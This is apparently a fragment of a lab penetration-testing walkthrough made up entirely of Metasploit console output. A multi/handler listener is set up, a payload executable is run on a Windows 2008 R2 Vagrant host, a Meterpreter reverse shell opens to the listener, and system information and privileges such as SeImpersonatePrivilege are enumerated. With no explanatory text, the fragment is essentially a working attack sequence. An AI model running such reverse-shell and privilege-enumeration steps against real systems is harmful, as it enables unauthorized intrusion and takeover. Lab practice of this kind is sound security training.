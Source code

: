 ```
   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST 10.10.21.2
LHOST => 10.10.21.2
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.21.2:1234
```

```
./shell-x64.exe
```

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.21.2:1234 
[*] Sending stage (200262 bytes) to 10.0.16.119                                                                                                                                             
[*] Meterpreter session 1 opened (10.10.21.2:1234 -> 10.0.16.119:50036 ) at 2023-05-03 18:38:37  +0530                                                                                       
meterpreter > sysinfo
Computer        : VAGRANT-2008R2
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > getuid
Server username: VAGRANT-2008R2\sshd_server
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
```